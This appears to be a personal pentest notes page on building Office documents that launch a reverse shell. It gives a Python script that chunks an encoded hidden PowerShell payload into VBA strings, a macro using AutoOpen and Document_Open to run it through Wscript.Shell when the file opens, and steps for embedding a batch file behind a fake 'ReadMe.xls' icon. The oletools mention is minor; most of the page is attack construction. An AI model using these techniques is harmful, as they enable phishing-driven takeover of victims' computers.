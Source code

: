 #### Office macro reverse shell
[[1._Reverse Shells (WIN)#hta raw]]

Copy everything from: 
"powershell.exe -nop -w hidden -e ....... " into the str variable in split.py:

split.py
```
str = 

n = 50
for i in range(0, len(str), n):
	print "Str = Str + " + '"' + str[i:i+n] + '"'
```

run the python file:

```
python split.py
```

Paste to notepad++, shift over 1 tab.

```
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
	MyMacro
End Sub

Sub MyMacro()
    Dim Str As String

    Str = Str + "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
	.......................
    Str = Str + "wB0AGEAcgB0ACgAJABzACkAOwA="
    
    CreateObject("Wscript.Shell").Run Str

End Sub

```

New document in Word.
View > Macros > View Macros

Macro name: MyMacro

Macros in: Document1

Click Create.

Paste in Macro code.  Save.

Tools to help analyze the VBA Macro in the document:
https://github.com/decalage2/oletools/wiki/Install
```
sudo -H pip install -U oletools
```

https://github.com/decalage2/oletools/wiki/olevba
```
olevba --reveal Shelly.doc
```

#### Office Object Linking and Embedding

First, make a "launch.bat" file.

Paste in your powershell code form above:

```
START powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4kAGEAcgBkAE8AdQB0AHAAdQB0AD0AJAB0AHIAdQBlADsAJABzAC4AVwBpAG4AZABvAHcAU.....
vAGMAZQBzAHMAXQA6ADoAUwB0AGEAcgB0ACgAJABzACkAOwA= 
```

Insert > Object > Create from File > launch.bat

Select "Display as icon"
Click "Change Icon"
Chang icon if desired.
Change the Caption: "ReadMe.xls"

Click "OK"

